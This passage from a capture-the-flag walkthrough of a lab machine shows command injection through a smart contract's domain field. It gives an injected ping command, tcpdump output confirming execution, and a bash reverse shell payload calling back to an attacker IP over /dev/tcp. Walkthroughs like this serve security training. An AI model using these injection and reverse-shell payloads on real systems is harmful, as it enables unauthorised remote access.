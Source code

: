 ![1562312287957](https://0xdfimages.gitlab.io/img/1562312287957.png)

If I now hit “getDomain”:

![1562312311097](https://0xdfimages.gitlab.io/img/1562312311097.png)

### Injection

Because the name of the contract is WeaponizedPing, I thought something (either the within the contract or something watching on Chainsaw) might be pinging the domain value. I opened up `tcpdump` to look for icmp with `tcpdump -i tun0 -n icmp`. I then updated the contract to point to my ip:

![](https://0xdfimages.gitlab.io/img/chainsaw-ping.gif)

So something is reading the domain and then executing something like `ping -c 1 [input]`. The immediate question is, can I inject into that?

I tried this:

```

>>> contract.functions.setDomain('10.10.14.8; ping -c 2 10.10.14.8').transact()
HexBytes('0x4bf0a6e9c57c72f6ab13b34ad019bea228744d730a016ea1c0ad9eece33fc73c')

```

If my theory from above is right, I’d get 3 pings, because it would execute `ping -c 1 10.10.14.8; ping -c 2 10.10.14.8`. If I only get one ping, the injection didn’t work.

I get 3 pings:

```

15:11:06.716663 IP 10.10.10.142 > 10.10.14.8: ICMP echo request, id 1715, seq 1, length 64
15:11:06.716682 IP 10.10.14.8 > 10.10.10.142: ICMP echo reply, id 1715, seq 1, length 64
15:11:06.751937 IP 10.10.10.142 > 10.10.14.8: ICMP echo request, id 1716, seq 1, length 64
15:11:06.751981 IP 10.10.14.8 > 10.10.10.142: ICMP echo reply, id 1716, seq 1, length 64
15:11:07.754427 IP 10.10.10.142 > 10.10.14.8: ICMP echo request, id 1716, seq 2, length 64
15:11:07.754446 IP 10.10.14.8 > 10.10.10.142: ICMP echo reply, id 1716, seq 2, length 64

```

### Shell

Knowing I can inject, I can run a reverse shell as well:

```

>>> contract.functions.setDomain("google.com; bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'").transact()
HexBytes('0x4a1d4a839ecdeb140fc1ecdbdf5270ef915d3a04100c82365124abbacc1fb70d')

```

And I get a shell on my listener:
